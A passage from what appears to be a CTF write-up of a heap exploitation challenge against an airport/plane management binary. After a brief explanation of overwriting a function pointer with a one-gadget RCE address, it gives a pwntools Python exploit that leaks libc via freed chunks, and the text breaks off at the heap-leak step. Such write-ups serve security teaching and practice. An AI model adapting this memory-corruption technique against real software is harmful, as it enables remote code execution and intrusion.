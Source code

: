 After overwriting the `specialFree` function pointer, with a **magic one-gadget RCE** address, we simply sell the plane with the corrupted function pointer to get a shell.

Putting everything together, we can get the flag using the following exploit.

## Exploit
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def addAirport(length, name):
    r.sendlineafter("choice: ","2")
    r.sendlineafter("name?", str(length))
    r.sendlineafter("name:", name)

def addPlane(company, name):
    r.sendlineafter("choice: ","1")
    r.sendlineafter("choice: ", str(company))
    r.sendlineafter("name: ", name)

def sellAirport(idx):
    r.sendlineafter("choice: ","3")
    r.sendlineafter("choose?",str(idx)) 
    r.sendlineafter("choice: ","2")

def flyPlane(plane, airport):
    r.sendlineafter("choice: ","4")
    r.sendlineafter("choose?",plane)
    r.sendlineafter("choice: ","1")
    r.sendlineafter("fly? ",str(airport))
    r.sendlineafter("choice: ", "3") # exit

def listPlanes(airport):
    r.sendlineafter("choice: ","3")
    r.sendlineafter("choose? ",str(airport))
    r.sendlineafter("choice: ", "1") # list
    leak = r.recvuntil("Exit")
    r.sendlineafter("choice: ", "3") # exit
    return leak

def sellPlane(plane):
    r.sendlineafter("choice: ","4")
    r.sendlineafter("choose?", plane)
    r.sendlineafter("choice: ","2") # sell

def exploit(r):
    libc = ELF("./libc.so.6")
   
    ## LEAK LIBC ##
    addAirport(0x80,"A")
    addAirport(0x80,"B")
    addAirport(0x80,"C")
    sellAirport(0)
    sellAirport(1)
    addPlane(14,"D")
    flyPlane("D",2)
    libc_base = u64(listPlanes(2).split("by ")[1][0:6].ljust(8,'\0'))-0x3c3bf8
    one_gadget = libc_base+0xf0567
    log.success("libc base found at: "+hex(libc_base))
    log.success("one_gadget found at: "+hex(one_gadget))

    ## LEAK HEAP ##
    addPlane(15,"E")
    flyPlane("E",2)